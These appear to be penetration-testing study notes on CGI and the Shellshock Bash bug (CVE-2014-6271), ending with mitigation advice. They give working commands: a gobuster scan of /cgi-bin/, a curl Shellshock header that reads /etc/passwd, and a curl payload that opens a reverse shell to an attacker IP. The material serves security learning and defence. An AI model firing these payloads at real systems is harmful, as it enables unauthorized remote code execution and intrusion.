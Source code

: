 
### **CGI Overview**

- _Common Gateway Interface (CGI)_ is middleware between a **web server** and **external applications** or **databases**
- CGI scripts are often used to:
    - Render **dynamic content**
    - Process **web form input**
    - Integrate **external logic** (via Bash, Perl, Python, etc.)

- CGI scripts are typically stored in the `/cgi-bin/` directory
- Downsides:
    - Starts a **new process** for each request (resource intensive)
    - Opens a **new DB connection** for each request
    - **No caching** between requests

---

### **Shellshock Vulnerability**

- _CVE-2014-6271_: Bash bug allows **code execution via environment variables**
- Affects Bash versions **prior to 4.3**
- Triggered by injecting malicious function definitions via HTTP headers
    - Example payload:
```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```

---

### **Vulnerability Detection**

- Vulnerable Bash will **execute code** after function definition
- Non-vulnerable Bash outputs only: `not vulnerable`
- Exploitable via CGI if **user-controlled headers** (e.g., _User-Agent_) are passed to shell

---

### **Discovery and Enumeration**

#### **Using Gobuster**
```bash
gobuster dir -u http://<target>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
- Found script: `/cgi-bin/access.cgi`
- Accessing it returns no content (possibly defunct but still exploitable)

#### **Manual Test for Shellshock**
```bash
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' http://<target>/cgi-bin/access.cgi
```
- Output of `/etc/passwd` confirms RCE via vulnerable Bash

---

### **Exploitation – Reverse Shell**

#### **Bash Reverse Shell Payload**
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<attacker-IP>/7777 0>&1' http://<target>/cgi-bin/access.cgi
```
- Run Netcat listener on attacking machine
- Reverse shell opens as `www-data`

---

### **Post-Exploitation**

- Begin enumeration, privilege escalation
- Potential pivot point for lateral movement

---

### **Mitigation & Remediation**

- **Update Bash** to version >= 4.3
- Patch may require upgrading package manager on EOL systems
- For IoT or legacy systems:
    - Remove from internet
    - Isolate via firewall
    - Evaluate decommissioning
